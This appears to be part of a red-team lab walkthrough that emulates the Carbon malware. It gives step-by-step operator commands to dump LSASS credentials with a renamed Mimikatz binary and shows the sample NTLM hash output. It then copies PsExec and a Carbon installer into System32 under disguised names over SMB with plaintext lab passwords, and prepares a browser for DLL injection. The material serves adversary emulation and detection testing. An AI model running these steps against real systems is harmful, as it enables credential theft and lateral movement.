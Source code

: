 :arrow_right: Return to your RDP session to `bannik (10.20.10.9)` as `Frieda`.

* Open File Explorer and browse to `C:\Windows\System32`. Order the files by
date.

* Open an elevated Windows Command Prompt and execute the following
command to dump LSASS:

NOTE: This command varies slightly from the Detections scenario with the
addition of `privilege::debug` since we are not executing from SYSTEM
context.

```bat
C:\Windows\System32\terabox.exe "pr::d" "lsdu::go /ynot" "quit"
```

* :heavy_exclamation_mark: Verify that the NTLM hash for `adalwolfa` is included
in the output.
  * In the Command Prompt, press CTRL+F and in the "Find what:" field, enter
  `NTLM : 07d128430a6338f8d537f6b3ae1dc136`
  * The output should contain:
  * >    ```
    >    RID  : 00000456 (1110)
    >    User : Adalwolfa
    >
    >    * Primary
    >        NTLM : 07d128430a6338f8d537f6b3ae1dc136
    >        LM   : 
    >    Hash NTLM: 07d128430a6338f8d537f6b3ae1dc136
    >        ntlm- 0: 07d128430a6338f8d537f6b3ae1dc136
    >        lm  - 0: 95b8536c32208871930216e62d5e12d4
    >    ```

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy over
PsExec and the 3rd Carbon installer to `bannik (10.20.10.9)`:

```bash
smbclient -U 'skt.local\frieda'%'Password3!' //10.20.10.9/C$ -c 'put PsExec.exe Windows\System32\wsqsp.exe'
smbclient -U 'skt.local\frieda'%'Password3!' //10.20.10.9/C$ -c 'put carbon_installer_3.exe Windows\System32\wsqmanager.exe'
```

:arrow_right: Return to your RDP session to `bannik (10.20.10.9)` as `Frieda`.

* Return to the File Explorer window in System32.

* :arrow_right: Minimize (do not close) the RDP window. Start a new RDP session
to `khabibulin (10.20.20.104)` as `adalwolfa`:

| Username   | Password |
| :--------: | :---------------: |
| skt\adalwolfa  | Password2! |

* Close any spurious windows

* Open up Edge, but don't browse to any website just yet. The browser process
is needed for Carbon comms lib DLL injection to occur.
